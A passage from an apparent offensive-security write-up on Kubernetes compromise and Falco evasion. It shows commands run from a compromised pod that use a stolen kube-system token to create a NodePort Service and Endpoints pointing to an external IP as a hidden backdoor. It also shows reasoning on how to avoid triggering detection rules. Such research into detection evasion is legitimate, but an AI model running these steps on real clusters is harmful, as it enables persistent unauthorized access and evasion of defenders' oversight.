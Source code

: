 
As expected, with kube-system token we can create K8s objects. Final step in the compromise according to Scenario 2:

```
[Compromised Pod]
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ cat <<EOF | ./kctl --token "eyJhbGciOi...MP08h9jzg" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT apply -f -
> apiVersion: v1
> kind: Service
> metadata:
>   name: istio-mgmt
>   namespace: kube-system
> spec:
>   type: NodePort
>   ports:
>     - protocol: TCP
>       nodePort: 31313
>       port: 31313
>       targetPort: $KUBERNETES_SERVICE_PORT
> ---
> apiVersion: v1
> kind: Endpoints
> metadata:
>   name: istio-mgmt
>   namespace: kube-system
> subsets:
>   - addresses:
>       - ip: 35.247.21.15
>     ports:
>       - port: $KUBERNETES_SERVICE_PORT
> EOF
service/istio-mgmt unchanged
endpoints/istio-mgmt configured
-----
[Node]
sshayb@cloudshell:~$ kubectl get services --all-namespaces
NAMESPACE     NAME                   TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)           AGE
default       kubernetes             ClusterIP   10.52.0.1      <none>        443/TCP           3h37m
...
kube-system   istio-mgmt             NodePort    10.52.3.176    <none>        31313:31313/TCP   146m
```

All in all, we are successful in deploying the hidden workload on the compromised cluster and in addition deploying a NodePort as a future backdoor access. At the same time, we are careful enough not to trigger any rules except **Contact K8S API Server From Container**, which would result in multiple NOTICEs that might or might not fly under the radar of a vigilant SOC.

Can we do better than that? Careful inspection of rule **Contact K8S API Server From Container** provides hints on the potential way - what if we use one of the container images excepted in macro k8s_containers?


[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS